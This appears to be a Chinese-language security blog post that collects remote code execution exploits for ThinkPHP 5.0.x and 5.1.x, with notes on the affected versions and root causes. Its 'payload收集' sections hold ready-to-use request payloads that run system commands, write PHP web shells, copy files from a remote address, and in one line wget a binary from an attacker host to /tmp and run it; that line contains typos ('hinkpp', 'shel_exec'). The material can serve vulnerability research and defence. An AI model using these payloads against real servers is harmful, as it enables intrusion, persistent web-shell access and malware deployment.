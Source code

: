 ```yaml
---
layout: post
title: THINKPTP5_RCE
date: 2022-10-7
categories: blog
tags: [笔记]
description: tp5 rce漏洞 梳理

---
```


## Thinkphp5.x rce

***

### ThinkPHP5.0.x 变量覆盖RCE

#### 影响版本

`5.0.0 - 5.0.23`

#### 漏洞成因

利用`伪全局变量覆盖`达到命令执行的目的  
在`thinkphp/library/think/Request.php`的`method`方法存在漏洞，可以通过post数组传入`__method`任意调用Request类中的方法  
Request中的`__construct`方法中`foreach`调用可以覆盖Request类中的属性，导致原本的`filter`可以被覆盖成`system`  
Thinkphp5中定义了验证码类路由地址`?s=captcha`，默认这个方法能够调用`Request::instance()->param()`  
执行`$request->param()`会进入`input()`方法，在这个方法中将覆盖的`filter`回调`call_user_func()`，实现rce

理解：`__construct()`中的`$this->$name = $item` 做到类属性任意覆盖，被覆盖的类属性又被用在`call_user_func()`中

5.0.13之后版本默认debug=false 需要开启debug后才能利用此漏洞进行命令执行，可以通过添加路由触发rce

#### payload收集

```php
5.0.1-5.0.13 
//命令执行
POST ?s=index/index
s=whoami&_method=__construct&method=POST&filter[]=system
aaaa=whoami&_method=__construct&method=GET&filter[]=system
_method=__construct&method=GET&filter[]=system&get[]=whoami
c=system&f=calc&_method=filter

//写shell
POST
s=file_put_contents('test.php','<?php phpinfo();')&_method=__construct&method=POST&filter[]=assert

5.0.13-5.0.23
//开启debug命令执行
POST ?s=index/index
_method=__construct&filter[]=system&method=GET&s=calc

//无需开启debug命令执行
POST ?s=captcha/calc
_method=__construct&filter[]=system&method=GET
POST ?s=captcha
_method=__construct&filter[]=system&s=calc&method=get
    
//需开启debug写shell
POST
s=file_put_contents('test.php','<?php phpinfo();')&_method=__construct&method=POST&filter[]=assert
```

### ThinkPHP5.1.x未开启强制路由

#### 影响版本

`5.1.0 - 5.1.30`

#### 漏洞成因

thinkphp默认未开启强制路由且默认开启路由兼容模式  
兼容模式可以调用控制器(controller)执行，根据前一个RCE漏洞可知所有用户参数都会调用Request::input()  
其会调用filterValue方法，此方法中包含call_user_func

理解：流程中没有对控制器进行合法校验，导致可以调用任意控制器，实现rce

#### payload收集 

```php
#命令执行
5.0.x
?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=id
5.1.x
?s=index/\think\Request/input&filter[]=system&data=pwd
?s=index/\think\Container/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=id
?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=id
?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=shell_exec&vars[1][]='whoami'

?s=/index/hinkpp/invokefunction&function=call_user_func_array&vars[0]=shel_exec&vars[1][]='wget http://x.x.x.x/evil -O /tmp/.aaa; chmod 777 /tmp/.aaa; ./run'

#写入webshell
5.0.x
?s=/index/\think\app/invokefunction&function=call_user_func_array&vars[0]=assert&vars[1][]=copy(%27远程地址%27,%27333.php%27)
5.1.x
?s=index/\think\template\driver\file/write&cacheFile=shell.php&content=<?php phpinfo();?>
?s=index/\think\view\driver\Think/display&template=<?php phpinfo();?>  //shell生成在runtime/temp/md5(template).php
?s=/index/\think\app/invokefunction&function=call_user_func_array&vars[0]=assert&vars[1][]=copy(%27远程地址%27,%27333.php%27)
```
